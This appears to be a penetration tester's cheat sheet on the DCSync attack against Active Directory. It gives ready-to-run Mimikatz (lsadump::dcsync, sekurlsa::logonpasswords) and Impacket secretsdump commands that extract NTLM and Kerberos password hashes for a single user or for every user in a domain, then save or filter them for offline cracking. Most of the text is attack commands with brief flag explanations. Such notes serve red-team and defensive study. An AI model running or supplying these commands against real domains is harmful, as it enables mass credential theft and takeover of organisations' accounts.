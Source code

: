 #AD #Attack
## Info

- **Type:** Privilege Escalation / Active Directory Enumeration Attack    
- **Common Usage:** Used to extract password hashes (NTLM, Kerberos) from the domain controller without needing to directly access the domain controller.
- **Used By:** Attackers with sufficient permissions (Domain Admin or Enterprise Admin) to impersonate a domain controller.
- **Security Note:** Can be used to **dump credentials** for offline cracking, leading to full compromise of user accounts, especially **Domain Admins**.
## Prerequisites

- **Required Permissions:** The attacker must have **Domain Admin** or **Enterprise Admin** privileges, or **Replication rights** on the target domain controller.
- **Tools:**
    - **Mimikatz** (Most commonly used tool)
    - **[[Impacket]]'s `secretsdump.py`** (an alternative method)
## Mimikatz

### Run Mimikatz

```bash
mimikatz "privilege::debug" "sekurlsa::logonpasswords" "lsadump::dcsync /user:$TARGET_USER /domain:$DOMAIN /sid:$DOMAIN_SID"
```

- `privilege::debug`: Ensure you have high enough privileges to perform the attack.
- `sekurlsa::logonpasswords`: Displays current session's logon information (passwords, hashes).
- `lsadump::dcsync`: Simulates domain controller replication to dump the hashes of a specified user.
- `/user`: The target user whose hash you wish to extract.
- `/domain`: The domain name of the target.
- `/sid`: The SID of the domain (can be found using `net user /domain` or through `rpcclient`).

### Extract All User Hashes
```bash
mimikatz "privilege::debug" "lsadump::dcsync /domain:$DOMAIN /all"
```

- `all`: Fetches the hashes for **all users** in the domain.
### Target a Specific Domain Controller

```bash
mimikatz "privilege::debug" "lsadump::dcsync /domain:$DOMAIN /controller:$DC_IP"
```

- `/controller`: Specifies the domain controller to sync with for hashes.
## Impacket's `secretsdump.py`
### Basic Usage

```bash
secretsdump $DOMAIN/$USER:$PASSWORD@$IP -just-dc-user $TARGET_USER
```

- `$DOMAIN/$USER:$PASSWORD`: The attacker’s credentials (could also use NTLM hash).    
- `@$IP`: The target domain controller.
- `-just-dc-user`: Dumps only the specific target user's hash from the domain controller.

#### Extract All User Hashes

```bash
secretsdump.py $DOMAIN/$USER:$PASSWORD@$IP -outputfile hashes.txt
```

- This command will dump all user hashes from the domain controller. 
## Advanced Usage

### Save Output to File

```bash
mimikatz "privilege::debug" "lsadump::dcsync /domain:$DOMAIN /user:$USER /sid:$DOMAIN_SID" > hashes.txt
```
### Extract NTLM Hash for Further Cracking

```bash
mimikatz "privilege::debug" "lsadump::dcsync /user:$USER /domain:$DOMAIN" | grep -i "NTLM"
```

- This command filters the output to only show NTLM hashes.
### Impacket `secretsdump.py`

```bash
secretsdump.py -just-dc-user $TARGET_USER $DOMAIN/$USER:$PASSWORD@$IP
```

- This will extract the hashes of the specific user from the domain controller.